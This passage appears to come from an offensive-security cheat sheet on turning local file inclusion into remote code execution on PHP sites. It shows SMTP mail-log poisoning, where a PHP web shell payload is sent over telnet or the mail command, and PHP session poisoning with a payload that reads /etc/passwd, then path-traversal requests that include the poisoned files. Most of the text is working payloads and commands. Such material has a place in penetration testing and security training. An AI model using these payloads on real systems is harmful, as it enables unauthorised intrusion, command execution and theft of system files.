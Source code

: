 First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

## LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] or /var/lib/php/session/sess_[PHPSESSID] files

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```
